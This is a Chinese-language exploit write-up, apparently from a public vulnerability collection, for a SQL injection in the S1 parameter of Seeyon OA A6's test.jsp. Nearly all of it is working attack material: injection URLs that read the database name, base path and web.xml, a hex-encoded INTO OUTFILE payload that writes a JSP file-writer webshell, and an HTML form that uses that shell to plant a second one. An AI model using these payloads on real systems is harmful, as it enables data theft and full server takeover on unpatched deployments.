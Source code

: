 致远OA A6 test.jsp sql注入漏洞
==============================

一、漏洞简介
------------

致远A6协同系统 `/yyoa/common/js/menu/test.jsp` 文件 S1 参数SQL注入漏洞

二、漏洞影响
------------

致远OA A6

三、复现过程
------------

注入点为S1变量，通过探测，发现是mysql数据库

    http://www.0-sec.org/yyoa/common/js/menu/test.jsp?doType=101&S1=

于是构造注入语句查询数据库名：

    http://www.0-sec.org/yyoa/common/js/menu/test.jsp?doType=101&S1=(SELECT%20database())

![](resource/致远OAA6test.jspsql注入漏洞/media/rId24.png)

Mysql注入中，我们使用into outfile
来写入数据，用此方法注入webshell，前提条件两个：

-   1：root权限

-   2：物理路径

我们探测一下web根目录

    http://www.0-sec.org/yyoa/common/js/menu/test.jsp?doType=101&S1=(SELECT%20@@basedir)

![](resource/致远OAA6test.jspsql注入漏洞/media/rId25.png)

通过yyoa目录结构猜测物理路径为

    F:/UFseeyon/OA/tomcat/webapps/yyoa/

可以使用load\_file判断是否正确

    http://www.0-sec.org/yyoa/common/js/menu/test.jsp?doType=101&S1=select%20load_file(%27F:/UFseeyon/OA/tomcat/webapps/yyoa/WEB-INF/web.xml%27)

利用mysql into
outfile写shell：由于jsp一句话超长，请求连接会拒绝，故先上传写文件脚本，再本地构造进行webshell上传：

    <%if(request.getParameter("f")!=null)(new java.io.FileOutputStream(application.getRealPath("\\")+request.getParameter("f"))).write(request.getParameter("t").getBytes());%>

由于特殊符号存在，URL编码会造成写入后代码错误，故采用hex编码后unhex处理上传，写入文件名为：he1p.jsp

    http://www.0-sec.org/yyoa/common/js/menu/test.jsp?doType=101&S1=select%20unhex(%273C25696628726571756573742E676574506172616D657465722822662229213D6E756C6C29286E6577206A6176612E696F2E46696C654F757470757453747265616D286170706C69636174696F6E2E6765745265616C5061746828225C22292B726571756573742E676574506172616D65746572282266222929292E777269746528726571756573742E676574506172616D6574657228227422292E67657442797465732829293B253E%27)%20%20into%20outfile%20%27F:/UFseeyon/OA/tomcat/webapps/yyoa/he1p.jsp%27

本地构造上传：

    <html>
        <form action="http://www.0-sec.org/yyoa/he1p.jsp?f=we1come.jsp" method="post">
            <textarea name=t cols=120 rows=10 width=45>your code</testarea>
            <input type=submit value="提交">
        </form>
    </html>

上传后获取webshell地址为：<http://www.0-sec.org/yyoa/we1come.jsp>

参考链接
--------

> <https://www.pa55w0rd.online/yyoa/>
